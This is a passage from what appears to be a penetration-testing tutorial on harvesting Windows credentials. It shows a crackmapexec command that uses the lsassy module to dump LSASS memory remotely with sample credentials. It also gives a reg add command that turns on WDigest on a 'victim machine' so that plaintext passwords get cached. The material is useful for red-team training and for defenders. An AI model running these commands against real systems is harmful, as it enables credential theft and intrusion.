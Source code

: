 Lsassy is also available in crackmapexec.

| 1  | └─\$ crackmapexec smb 192.168.x.x -u 0xhav0c -p Password123! -M lsassy  |
|----|-------------------------------------------------------------------------|

![Getting LSASS dump with Crackmapexec lsassy module.](media/5f82a2b7332a0461a75fae8502164274.png)Getting LSASS dump with Crackmapexec lsassy module.

The methods shown up to this section were for devices that hold hashes and plaintext credentials.

Enabling Wdigest and Obtaining Plain Text Credentials

WDigest is disabled on newer machines. It is possible for attackers to enable this plaintext credentials when a user logs in. WDigest can be enabled by setting the required registry key to “1” instead of “0”:

| 1  | C:\\Users\\0xhav0c\> reg add HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /d 1  |
|----|-------------------------------------------------------------------------------------------------------------------------------|

![Entering a registry key.](media/cee13668c8164f6d62f9904e23475ba5.png)Enabling Wdigest with entering a registry key.

![On victim machine: Attached registry image.](media/9c778e7ed403064ffb13813fb20c0d7b.png)On victim machine: Attached registry image.Additionally, this can be done remotely with Crackmapexec:
